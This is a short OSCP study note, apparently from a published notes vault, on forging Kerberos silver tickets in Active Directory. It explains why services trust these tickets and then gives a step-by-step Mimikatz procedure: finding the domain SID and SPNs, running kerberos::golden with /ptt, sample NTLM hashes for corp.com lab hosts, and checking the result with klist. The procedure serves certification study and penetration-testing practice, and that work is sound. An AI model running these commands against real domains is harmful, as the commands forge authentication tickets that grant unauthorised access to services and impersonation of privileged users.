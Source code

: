 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/13. Active Directory Attacks/5. Silver Tickets/"}
---
```


-----------
- Ability to access SPN as anyone if owns hash of any account of that SPN
- Application checks user permissions in service ticket, but are often not verified by anything
- It trusts the integrity since the ticket is encrypted with the password hash
- Forging these tickets can be prevented with Privileged Account Certificate (PAC) validation. However, it is rare.
- Using an account password or NTLM hash a ticket can be created to access the application on all servers with the same SPN
- Information needed to forge a silver ticket:
	- SPN password hash
	- Domain SID
	- Target SPN
-------------------------
### Forging a silver ticket with Mimikatz:
1. Get NTLM hash in some way.
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Get SPN:
```
#Using setspn.exe:
setspn -L <user>

#Using PowerView:
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
4. Craft ticket:
```
#Run mimikatz:
.\mimikatz.exe

#Engage debug mode:
privilege::debug

#Craft ticket:
kerberos::golden /sid:<sid> /domain:<domain> /ptt /target:<hostname> /service:<service> /rc4:<ntlm> /user:<targetuser>

#Example:
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
5. Confirm ticket is loaded in to memory in Powershell:
```
klist
```

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:08d7a47a6f9f66b97b1bae4178747494 /user:iis_service
